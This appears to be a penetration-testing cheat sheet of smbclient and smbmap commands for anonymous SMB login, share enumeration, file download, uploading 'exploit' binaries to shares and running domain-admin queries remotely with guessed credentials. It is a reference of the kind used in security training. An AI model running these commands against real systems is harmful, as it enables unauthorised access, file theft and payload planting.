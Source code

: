 ```bash
smbclient -N \\\\$TARGET\\$SHARE
```

WINDOWS

```bash
smbclient -N //$TARGET/$SHARE
```

smbclient anonymous login:

```bash
smbclient -L $TARGET -U " "%" "
```

```bash
smbclient \\\\$TARGET\\scripts$ -U " "%" "
```

#### smbmap.py

```bash
smbmap -H $TARGET
```

```bash
smbmap -H $TARGET -r 'home'
```

```bash
smbmap -H $TARGET -r 'home\useradm'
```

### smbmap Downloading files:

```bash
smbmap -H $TARGET --download 'home\useradm\file.txt'
```

#### smbmap Uploading files:

```bash
smbmap -H $TARGET --upload exploit.exe 'home\useradm\'
```

```bash
smbmap -H $TARGET -P 445 --upload exploit.so 'SusieShare/exploit.so' 
```

```bash
smbmap -u johana -p johana -d spray.csl -x 'net group "Domain Admins" /domain' -H $TARGET
```

#### Using smbclient to list shares (unauthenticated)

```bash
smbclient -L \\\\$TARGET -p 445
```

#### Using smbclient without creds

